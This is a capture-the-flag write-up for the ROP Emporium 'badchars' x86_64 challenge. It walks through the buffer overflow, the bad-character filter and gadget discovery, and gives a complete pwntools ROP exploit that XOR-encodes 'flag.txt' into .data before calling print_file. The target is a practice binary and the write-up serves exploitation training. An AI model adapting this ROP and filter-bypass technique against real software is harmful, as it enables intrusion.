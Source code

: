 # badchars - 64 Bit
Program execution:
```
badchars by ROP Emporium
x86_64

badchars are: 'x', 'g', 'a', '.'
> <input_here>
```
Run checksec: `checksec ./badchars`
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```
Again, `main` call `pwnme`, which is defined in the given libbadchars.so.

Disassembling libbadchars.so shows that `pwnme` unsafely reads too many (0x200) bytes in to a 32 byte buffer at `rbp-0x40`:
```assembly
lea     rax, [rbp-0x40]
add     rax {var_28}, 0x20
mov     edx, 0x200
mov     rsi, rax {var_28}
mov     edi, 0x0
call    read

```

We also find some code that checks our input for bad characters ('x'/0x78, 'g'/0x67, 'a'/0x61, '.'/0x2E). If any of these characters are found, they will be replaced with 0xeb which will invalidate our rop chain, making it incorrect.
```c
0000095c      puts(str: "badchars are: 'x', 'g', 'a', '.'")
0000096d      printf(format: &data_ae9)
00000987      int64_t rax_2 = read(fd: 0, buf: &var_28, nbytes: 0x200)
000009f6      for (int64_t var_40 = 0; var_40 u< rax_2; var_40 = var_40 + 1)
000009dd          for (int64_t var_38_1 = 0; var_38_1 u<= 3; var_38_1 = var_38_1 + 1)
000009be              if (*(&var_28 + var_40) == *(badcharacters + var_38_1))
000009c4                  *(&var_28 + var_40) = 0xeb
```

Like in the last challenge, there is a `print_file` function which will print a file specified by the string argument (filename string address). So we want to pass "flag.txt" into this function.
Running `rabin2 -z badchars` reveals that there is no flag.txt string:
```
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000006c4 0x004006c4 11  12   .rodata ascii nonexistent
```
Let's find a writeable area of memory, where we can write our "flag.txt" string.
`readelf -S badchars`:
```
There are 29 section headers, starting at offset 0x1980:

Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
  [ 0]                   NULL             0000000000000000  00000000
       0000000000000000  0000000000000000           0     0     0
  [ 1] .interp           PROGBITS         0000000000400238  00000238
       000000000000001c  0000000000000000   A       0     0     1
  [ 2] .note.ABI-tag     NOTE             0000000000400254  00000254
       0000000000000020  0000000000000000   A       0     0     4
  [ 3] .note.gnu.build-i NOTE             0000000000400274  00000274
       0000000000000024  0000000000000000   A       0     0     4
  [ 4] .gnu.hash         GNU_HASH         0000000000400298  00000298
       0000000000000038  0000000000000000   A       5     0     8
  [ 5] .dynsym           DYNSYM           00000000004002d0  000002d0
       00000000000000f0  0000000000000018   A       6     1     8
  [ 6] .dynstr           STRTAB           00000000004003c0  000003c0
       000000000000007e  0000000000000000   A       0     0     1
  [ 7] .gnu.version      VERSYM           000000000040043e  0000043e
       0000000000000014  0000000000000002   A       5     0     2
  [ 8] .gnu.version_r    VERNEED          0000000000400458  00000458
       0000000000000020  0000000000000000   A       6     1     8
  [ 9] .rela.dyn         RELA             0000000000400478  00000478
       0000000000000030  0000000000000018   A       5     0     8
  [10] .rela.plt         RELA             00000000004004a8  000004a8
       0000000000000030  0000000000000018  AI       5    22     8
  [11] .init             PROGBITS         00000000004004d8  000004d8
       0000000000000017  0000000000000000  AX       0     0     4
  [12] .plt              PROGBITS         00000000004004f0  000004f0
       0000000000000030  0000000000000010  AX       0     0     16
  [13] .text             PROGBITS         0000000000400520  00000520
       0000000000000192  0000000000000000  AX       0     0     16
  [14] .fini             PROGBITS         00000000004006b4  000006b4
       0000000000000009  0000000000000000  AX       0     0     4
  [15] .rodata           PROGBITS         00000000004006c0  000006c0
       0000000000000010  0000000000000000   A       0     0     4
  [16] .eh_frame_hdr     PROGBITS         00000000004006d0  000006d0
       0000000000000044  0000000000000000   A       0     0     4
  [17] .eh_frame         PROGBITS         0000000000400718  00000718
       0000000000000120  0000000000000000   A       0     0     8
  [18] .init_array       INIT_ARRAY       0000000000600df0  00000df0
       0000000000000008  0000000000000008  WA       0     0     8
  [19] .fini_array       FINI_ARRAY       0000000000600df8  00000df8
       0000000000000008  0000000000000008  WA       0     0     8
  [20] .dynamic          DYNAMIC          0000000000600e00  00000e00
       00000000000001f0  0000000000000010  WA       6     0     8
  [21] .got              PROGBITS         0000000000600ff0  00000ff0
       0000000000000010  0000000000000008  WA       0     0     8
  [22] .got.plt          PROGBITS         0000000000601000  00001000
       0000000000000028  0000000000000008  WA       0     0     8
  [23] .data             PROGBITS         0000000000601028  00001028
       0000000000000010  0000000000000000  WA       0     0     8
  [24] .bss              NOBITS           0000000000601038  00001038
       0000000000000008  0000000000000000  WA       0     0     1
  [25] .comment          PROGBITS         0000000000000000  00001038
       0000000000000029  0000000000000001  MS       0     0     1
  [26] .symtab           SYMTAB           0000000000000000  00001068
       0000000000000618  0000000000000018          27    46     8
  [27] .strtab           STRTAB           0000000000000000  00001680
       00000000000001f8  0000000000000000           0     0     1
  [28] .shstrtab         STRTAB           0000000000000000  00001878
       0000000000000103  0000000000000000           0     0     1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  l (large), p (processor specific)
```

So we know we need to write "flag.txt" to .data, but what ROP gadgets can we use to achieve that? We need to find `mov` gadgets that work with memory address (`[reg]` notation). We also bear in mind our bad bytes to filter out: ('x'/0x78, 'g'/0x67, 'a'/0x61, '.'/0x2E)
`ropper -f badchars --search 'mov [???], ???' -b 7867612E`:
```
0x0000000000400635: mov dword ptr [rbp], esp; ret;
0x0000000000400634: mov qword ptr [r13], r12; ret;
```
So we have 1 gadgets that lets us move the value in `r12` into the address specified by the value of `r13`. So now we need gadgets to pop data off the stack into `r12` and `r13`
`ropper -f badchars --search 'pop r12; pop r13;' -b 7867612E`:
```
[INFO] File: badchars
0x000000000040069c: pop r12; pop r13; pop r14; pop r15; ret;
```
We have a gadget that will let us pop `r12` and `r13` as needed but also `r14` and `r15` which we can just load dummy data into.
Since we can only move 8 bytes at a time, we will have to do 2 moves. One for "flag.txt" and one for "\x00\x00\x00\x00\x00\x00\x00\x00" so that our string ends with a null terminator.
Each time we write 8 bytes, remember we need to offset the .data address to write to, by 8.

However we aren't done. We have to account for the fact that 'g', 'a' and '.' are bad bytes but they are required to represent the string "flag.txt". We'll need to encrypt this string in our exploit to bypass badchar checks, then we can decrypt it once it's already in memory.
An easy encryption technique is `xor`.
`ropper -f badchars --search 'xor' -b 7867612E`:
```
[INFO] File: badchars
0x0000000000400628: xor byte ptr [r15], r14b; ret;
0x0000000000400629: xor byte ptr [rdi], dh; ret;
```
Luckily for us, we have an `xor` gadget so this is actually a viable technique. Since the `xor` is done byte at a time (lowest byte of the 8-byte register, as we're deal with little endian), we'll a gadget to load target address into `r15`. To load our bitmask (for `xor`) into `r14`, we'll do that with our previous gadget that loads `r12-r15`.
`ropper -f badchars --search 'pop r15' -b 7867612E`:
```
[INFO] File: badchars
0x00000000004006a2: pop r15; ret;
```
And lastly we just need a gadget to get our `data`(string) address into `rdi` to set our arg for `print_file`.
`ropper -f badchars --search 'pop rdi' -b 7867612E`:
```
[INFO] File: badchars
0x00000000004006a3: pop rdi; ret;
```

Exploit script:
```python
#!/usr/bin/python3

from pwn import *

PROG_NAME = "./badchars"

p = process(PROG_NAME)
elf = p.elf
rop = ROP(elf)

if args.ATTACH:
  gdb.attach(p, '''break main''')
  sleep(5)

bad_bytes = b'xga.'
# this XOR will just capitalise essentially
bitmask = 1 << 5

data_addr = 0x0000000000601028
mov_ptr_r13_r12_addr = 0x0000000000400634     # mov qword ptr [r13], r12; ret;
pop_r12_r13_r14_r15_addr = 0x000000000040069c # pop r12; pop r13; pop r14; pop r15; ret;
xor_ptr_r15_r14_addr = 0x0000000000400628     # xor byte ptr [r15], r14b; ret;
pop_r15_addr = 0x00000000004006a2         # pop r15; ret;
pop_rdi_addr = 0x00000000004006a3         # pop rdi; ret;
p.recvuntil(b'> ')

payload = b'A' * (0x20 + 0x8)

for i, string in enumerate([b'flag.txt', b'\x00'*8]):
  # build our string, 8 bytes at a time

  payload += p64(pop_r12_r13_r14_r15_addr)

  # xor badchars to bypass badchars check
  # if we don't limit xor to badchars,
  # we actually exceed an 0x200 byte payload
  for c in string:
    if c in bad_bytes:
      payload += p8(c ^ bitmask)
    else:
      payload += p8(c)

  payload += p64(data_addr + i*8)
  payload += p64(bitmask)
  payload += b'AAAAAAAA'
  payload += p64(mov_ptr_r13_r12_addr)

  for j in range(8):
    if string[j] in bad_bytes:
      # in-memory data manipulation to undo xor
      payload += p64(pop_r15_addr)
      payload += p64(data_addr + i*8 + j)
      payload += p64(xor_ptr_r15_r14_addr)


# with our .data set up, we can call print_file
payload += p64(pop_rdi_addr)
payload += p64(data_addr)
payload += p64(elf.symbols['print_file'])

p.sendline(payload)

p.interactive()
```

And we get the flag:
```
Thank you!
ROPE{a_placeholder_32byte_flag!}
```